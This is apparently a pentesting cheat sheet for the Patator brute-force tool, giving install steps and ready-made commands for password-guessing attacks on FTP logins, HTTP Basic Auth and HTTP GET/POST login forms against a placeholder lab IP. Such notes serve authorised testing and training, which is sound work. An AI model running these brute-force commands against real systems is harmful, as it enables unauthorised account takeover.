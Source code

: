 ### Installation

#### Docker

```
git clone https://github.com/lanjelot/patator.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t patator patator/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt patator dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

#### Git Installation
```
git clone https://github.com/lanjelot/patator.git
cd patator
python3 ./patator.py
```
>  This approach requires manual installation of all dependencies based on which modules you want to use.

### Syntax
Here is the general syntax used by Patator :
```
patator <module_name> host=<target_ip> user=<username> password=FILE0 0=<passwords_list> -x action:condition
```

### FTP
```
patator ftp_login host=10.10.10.10 user='<user>' password=FILE0 0='<passwords.txt>' -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
```

### HTTP Basic Auth
```
patator http_fuzz url=http://10.10.10.10/login.php user_pass=COMBO00:COMBO01 0=<combo.txt> -x 'ignore:code=401'
```

### HTTP GET
```
patator http_fuzz url='http://10.10.10.10/login.php?username='<user>'&password=FILE0' 0='<passwords.txt>' method=GET accept_cookie=1 follow=1 -x ignore:fgrep='Incorrect username or password'
```
- `accept_cookie=1` will accept received cookies from the server and use them to issue future requests
- `follow=1` will follow redirections

### HTTP POST
```
patator http_fuzz url=http://10.10.10.10/login.php method=POST body='username='<user>'&password=FILE0' 0='<passwords.txt>' accept_cookie=1 follow=1 -x ignore:fgrep='Incorrect username or password'
```
